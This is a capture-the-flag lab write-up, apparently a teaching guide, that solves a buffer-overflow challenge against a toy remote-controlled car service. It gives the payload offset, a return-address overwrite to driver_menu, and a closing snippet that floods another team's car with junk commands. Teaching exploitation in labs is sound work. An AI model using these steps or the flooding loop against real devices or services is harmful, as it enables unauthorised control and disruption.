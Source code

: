 # Pwn My Ride

Browsing to http://car, we see the following message.

```
Welcome to Pwn My Ride 0x1337
--------------------------------------------------------------------------------
We found out that a hacker tried to steal our car. We noticed her developing an 
exploit to remotely control the car. We do not think its possible since the     
driver_menu function has been disabled in the remote car service. But management
still would like you to take a look and report back.
--------------------------------------------------------------------------------
The hacker got frustrated and quit but left her exploit script on the target.
We need you to investigate and figure out if you can take over the car.
--------------------------------------------------------------------------------
The hacker left a note that we think may help.
Step 1: Figure out how many bytes to crash program using GDB debugger.
Step 2: Figure out address of driver_menu using gdb command x/i driver_menu.
Step 3: Send exploit, wait, and then send direction command.
--------------------------------------------------------------------------------
One of our techs was playing with the hackers exploit.py script
They determined the script has some ???  where the hacker was not finished.
You can edit the script with nano exploit.py. Remember CTRL-X to save the edits.
You can then launch the script against the GDB debugger, using the command

python3 exploit.py GDB

You can then launch it remotely against the car server using the commands

python3 exploit.py REMOTE
--------------------------------------------------------------------------------
Good luck! This is the final challenge.
```

## Solution

We will edit the script to send a large cyclic pattern and see if we can determine when we overflow the next instruction. We will change ``payload = cyclic(???)`` to ``payload = cyclic(100)`` and then run ``python3 exploit.py GDB``

We see that the debugger crashes with the error message ``Invalid address 0x61616861616167``. This means that the program is trying to execute an instruction at this memory address. Unfortunately this is not a valid memory address. It is actually just letters from our cyclic pattern if we type ``unhex 61616861616167``, we'll see it responds with ``aahaaag``. We will determine the offset of this pattern by using the ``cyclic`` command at the command prompt (Note - although gdb allows using cyclic, it does not work well. Have students exit and perform the cyclic command from the command prompt.)

```
cyclic -l 0x61616861616167
24
```

Here we see that at 24 bytes into our cyclic pattern, we gain control of the address of the next instruction. For example, let us send the invalid address 0xdeadbeef as the location of the next instruction. If everything works correctly, the debugger should report a crash indicating that it could not perform the instruction at the address 0xdeadbeef. After editing ``exploit.py`` with the following:

```python
payload = cyclic(24) 
payload += p64(0xdeadbeef)
```

we run ``python3 exploit.py GDB`` and observe the results. The debugger reports ``Invalid address 0xdeadbeef``. This is great! We now know we can control the next instruction. All we have to do is provide it an address of valid instruction(s) we'd like to execute. The prompt indicated that if we ran ``x/i driver_menu`` in GDB, it would provide use the address of the driver menu function.

```gdb
x/i driver_menu
 0x400d40 <driver_menu>:      stp     x29, x30, [sp, #-32]!
```

Here, we see that the debugger tells us ``0x400d40`` is the address of driver_menu. We can update our ``exploit.py`` script as folloing.

```python
payload = cyclic(24) 			# overflow bytes to crash program
payload += p64(0x400d40)		# address to execute after crash
```

Now that we have a working exploit, let us trying it against the remote target. Running the following command runs our exploitly remotely against the car.

```
python3 exploit.py REMOTE

```

After running we are presented with a prompt ``$``. But the car does nothing. We are reminded that this is the ``driver_menu`` function and it is expecting car commands like ``w,a,s,d`` to move the car. We enter ``w`` at the prompt and see the following message as the car moves forward.

```
$ w
w<<< Sending Command: u
```

## Prompts

0. How can we determine the number of bytes to crash a program? Using cyclic since it provides a large non-repeatable sequence. We send in a large cyclic(100) and then determine how many bytes in crashed our program.

1. How can we verify we are at the right overflow offset? By sending in an invalid address like 0xdeadbeef, we can check and make sure this causes the program to crash at this address.


## Helpful Pivots for Students

0. How can we move the car multiple moves? By putting additional lines into our script after the exploit succeeds. For example you could send the konami code using:

```python
konami = [b'w',b'w',b's',b's',b'a',b'd',b'a',b'd']
for move in konami:
   time.sleep(0.1)
   p.sendline(move)

p.interactive()
```

1. How could you disable another team's car? By infinitely sending incorrect commands to the car's queue. The following code will overflow the cars direction queue, preventing valid instructions from arriving.  

```python
while True:
   time.sleep(0.1)
   p.sendline(b'x')
```
